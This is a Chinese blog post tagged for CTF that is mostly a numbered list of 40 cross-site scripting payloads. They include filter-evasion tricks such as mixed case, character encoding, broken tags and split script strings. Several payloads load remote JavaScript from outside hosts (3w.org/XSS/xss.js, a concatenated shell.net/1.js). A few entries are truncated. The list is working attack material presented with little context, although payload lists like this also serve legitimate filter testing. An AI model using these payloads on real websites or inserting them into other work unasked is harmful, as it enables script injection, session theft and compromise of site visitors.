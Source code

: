 ```yaml
---
title: xss payload
date: 2018-10-14 18:11:03
tags:
  - xss
  - web
  - ctf
categories:
  - ctf
---
```


总结了常用的xss payload
<!--more-->

1.普通的XSS JavaScript注入

    <SCRIPT SRC=http://3w.org/XSS/xss.js></SCRIPT>

2.IMG标签XSS使用JavaScript命令

    <IMG SRC=1 ONERROR=alert('XSS')>

3.IMG标签无分号无引号

    <IMG SRC=javascript:alert('XSS')>

4.IMG标签大小写不敏感

    <IMG SRC=JaVaScRiPt:alert('XSS')>

5.HTML编码(必须有分号)

    <IMG SRC=javascript:alert("XSS")>

6.修正缺陷IMG标签

    <IMG """><SCRIPT>alert("XSS")</SCRIPT>">

7.formCharCode标签(计算器)

    <IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>

8.UTF-8的Unicode编码(计算器)

    <IMG SRC=jav..省略..S')>

9.7位的UTF-8的Unicode编码是没有分号的(计算器)

    <IMG SRC=jav..省略..S')>

10.十六进制编码也是没有分号(计算器)

    <IMG SRC=&#x6A&#x61&#x76&#x61..省略..&#x58&#x53&#x53&#x27&#x29>

11.嵌入式标签,将Javascript分开

    <IMG SRC="jav ascript:alert('XSS');">

12.嵌入式编码标签,将Javascript分开

    <IMG SRC="jav ascript:alert('XSS');">

13.嵌入式换行符

    <IMG SRC="jav ascript:alert('XSS');">

14.嵌入式回车

    <IMG SRC="jav ascript:alert('XSS');">

15.嵌入式多行注入JavaScript,这是XSS极端的例子

    <IMG SRC="javascript:alert('XSS')">

16.解决限制字符(要求同页面)

    <script>z='document.'</script>
    <script>z=z+'write("'</script>
    <script>z=z+'<script'</script>
    <script>z=z+' src=ht'</script>
    <script>z=z+'tp://ww'</script>
    <script>z=z+'w.shell'</script>
    <script>z=z+'.net/1.'</script>
    <script>z=z+'js></sc'</script>
    <script>z=z+'ript>")'</script>
    <script>eval_r(z)</script>

17.空字符

    perl -e 'print "<IMG SRC=java\0script:alert(\"XSS\")>";' > out

18.空字符2,空字符在国内基本没效果.因为没有地方可以利用

    perl -e 'print "<SCR\0IPT>alert(\"XSS\")</SCR\0IPT>";' > out

19.Spaces和meta前的IMG标签

    <IMG SRC=" javascript:alert('XSS');">

20.Non-alpha-non-digit XSS

    <SCRIPT/XSS SRC="http://3w.org/XSS/xss.js"></SCRIPT>

21.Non-alpha-non-digit XSS to 2

    <BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("XSS")>

22.Non-alpha-non-digit XSS to 3

    <SCRIPT/SRC="http://3w.org/XSS/xss.js"></SCRIPT>

23.双开括号

    <<SCRIPT>alert(a.sourse);//<</SCRIPT>

24.无结束脚本标记(仅火狐等浏览器)

    <SCRIPT SRC=http://3w.org/XSS/xss.js?<B>

25.无结束脚本标记

    <SCRIPT SRC=//3w.org/XSS/xss.js>

26.半开的HTML/JavaScript XSS

    <IMG SRC="javascript:alert('XSS')"

27.双开角括号

    <iframe src=http://3w.org/XSS.html >

28.无单引号、双引号、分号

    <SCRIPT>a=/XSS/ alert(a.source)</SCRIPT>

29.换码过滤的JavaScript

    \";alert('XSS');//

30.结束Title标签

    </TITLE><SCRIPT>alert("XSS");</SCRIPT>

31.Input Image

    <INPUT SRC="javascript:alert('XSS');">

32.BODY Image

    <BODY BACKGROUND="javascript:alert('XSS')">

33.BODY标签

    <BODY('XSS')>

34.IMG Dynsrc

    <IMG DYNSRC="javascript:alert('XSS')">

35.IMG Lowsrc

    <IMG LOWSRC="javascript:alert('XSS')">

36.BGSOUND

    <BGSOUND SRC="javascript:alert('XSS');">

37.STYLE sheet

    <LINK REL="stylesheet" HREF="javascript:alert('XSS');">

38.远程样式表

    <LINK REL="stylesheet" HREF="http://3w.org/xss.css">

39.List-style-image(列表式)

    <STYLE>li {list-style-image: url("javascript:alert('XSS')");}</STYLE><UL><LI>XSS

40.IMG VBscript

    <IMG SRC='vbscript:msgbox("XSS")'></STYLE><UL><LI>XSS